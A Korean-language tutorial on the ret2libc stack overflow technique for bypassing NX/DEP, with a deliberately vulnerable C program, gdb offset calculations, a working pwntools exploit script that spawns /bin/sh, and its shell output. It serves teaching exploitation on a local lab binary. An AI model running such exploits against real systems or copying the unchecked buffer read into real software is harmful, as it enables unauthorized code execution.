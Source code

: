 ## Concept

Return address 영역에 공유 라이브러리 함수 주소로 변조해, 해당 함수를 호출하는 기법.  
NX bit(DEP) 우회 가능.

```
0xffffd578  0xffffd598  이전 호출 프레임(push ebp)
0xffffd57c  0x0804844e  Return Address
0xffffd580  0x1         Arg 1
0xffffd584  0x2         Arg 2
0xffffd588  0x3         Arg 3
0xffffd58c  0x4         Arg 4
``` 

ret2libc 기법 사용 시 인자 값을 전달하기 위해서 Return address의 4byte 뒤에 인자 값을 전달해야 함.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -fno-stack-protector -o ret2libc ret2libc.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50] = "";
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 100);
}
 
void main(){
    vuln();
}
```
buf 크기는 50byte이지만 100byte를 입력받아 Buffer Overflow 발생.

```
gdb-peda$ x/24wx $ebp
0xbfdcb318:	0x41414141         0x42424242 <- &execve 0x43434343 <- &exit 0x44444444 <- &"/bin/sh"
0xbfdcb328:	0x45454545 <- null 0x46464646 <- null    0x0000000a          0xb7e0b637
```

execve()와 "/bin/sh" 주소를 확인한다.

```
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xb7e3c670 <__printf>

gdb-peda$ p execve-printf
$2 = 0x67170

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f4ea0b ("/bin/sh")
gdb-peda$ p 0xb7f4ea0b-0xb7e3c670
$3 = 0x11239b

gdb-peda$ p printf-exit
$4 = 0x1aca0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process('ret2libc')

recv = p.recvline()
printf=int(recv.split(' ')[3],16)
execve = printf + int(0x67170)
binsh = printf + int(0x11239b)
exit = printf - int(0x1aca0)
null = printf - int(0x49530)

print('printf  :'+hex(printf))
print('execve  :'+hex(execve))
print('/bin/sh :'+hex(binsh))
print('exit    :'+hex(exit))
print('null    :'+hex(null))
p.sendline("A"*66+p32(execve)+p32(exit)+p32(binsh)+p32(null)+p32(null))

p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[!] Could not find executable 'ret2libc' in $PATH, using './ret2libc' instead
[+] Starting local process './ret2libc': pid 16968
printf  :0xb7d94670
execve  :0xb7dfb7e0
/bin/sh :0xb7ea6a0b
exit    :0xb7d799d0
null    :0xb7d4b140
[*] Switching to interactive mode
$ id
uid=1000(bs) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86](https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86)

